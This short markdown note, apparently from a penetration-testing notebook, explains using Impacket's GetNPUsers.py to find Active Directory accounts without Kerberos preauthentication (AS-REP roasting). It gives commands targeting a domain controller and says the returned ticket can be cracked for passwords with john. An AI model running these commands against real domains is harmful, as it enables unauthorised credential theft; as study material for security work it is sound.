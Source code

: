 https://www.youtube.com/watch?v=pZSyGRjHNO4

This script check if the user you specify has the `Do not require Kerberos preauthentication` property set. 

(This means these accounts are vulnerable to ASREP Roasting)

---

You will need to provide a username. 
`python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/username`


If you want to provide a list of names 
`python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/  -usersfile users.txt`

---

It will spit out TGT (ticket granting ticket) for that user if vulnerable. 

The TGT can actually be cracked for a password using john